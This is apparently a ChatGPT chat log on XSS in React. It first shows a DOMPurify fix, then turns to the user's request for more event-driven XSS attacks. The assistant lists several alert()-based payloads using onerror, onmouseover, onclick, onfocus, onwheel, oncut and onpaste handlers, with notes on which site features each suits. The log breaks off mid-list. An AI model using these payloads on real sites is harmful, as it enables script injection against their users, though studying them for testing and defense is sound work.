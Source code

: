 Update your code:

    import DOMPurify from "dompurify";

    <div dangerouslySetInnerHTML={{ __html: DOMPurify.sanitize(userInput) }} />

✅ Lessons from the React XSS Demo

    React protects against XSS by default but dangerouslySetInnerHTML bypasses that protection.
    Event-driven XSS still works (e.g., <img onerror>, <svg onload>).
    Always sanitize user input before rendering HTML.

Would you like to test stored XSS in a React+Express setup next? 🚀
You said:
may i see more event driven xss attacks for react
ChatGPT said:
🔍 More Event-Driven XSS Attacks for React

Since React escapes input by default, but dangerouslySetInnerHTML allows direct HTML injection, event-driven XSS attacks are the best way to exploit this vulnerability.

Here are more event-based XSS payloads you can try:
🔥 Advanced XSS Payloads for React
1️⃣ onerror (for broken images)

<img src=x onerror=alert('XSS')>

✅ Works when React injects unsanitized HTML inside dangerouslySetInnerHTML.
2️⃣ onload (for SVG elements)


✅ Bypasses some sanitization methods because SVG tags execute scripts in some browsers.
3️⃣ onmouseover (Triggers when user hovers over the element)

<div style="width:100px;height:100px;background:red" onmouseover="alert('XSS')">Hover over me</div>

✅ Works well for "user profile name" or "comments" sections.
4️⃣ onclick (Triggers when clicked)

<button onclick=alert('XSS')>Click Me</button>

✅ Works if the site allows button rendering inside dangerouslySetInnerHTML.
5️⃣ onfocus (Triggers when input field is clicked)

<input type="text" onfocus="alert('XSS')">

✅ Can be useful in a "user profile form" attack.
6️⃣ onwheel (Triggers when user scrolls)

<div style="width:200px;height:200px;background:yellow" onwheel="alert('XSS')">Scroll me!</div>

✅ Sneaky way to execute XSS when a user scrolls on the element.
7️⃣ oncut / onpaste (Triggers when user interacts with text)

<input type="text" value="Try cutting this" oncut="alert('XSS')">
<input type="text" value="Try pasting here" onpaste="alert('XSS')">

✅ Useful for attacking text editors or form fields.
8️⃣ onkeydown (Triggers when a user types)
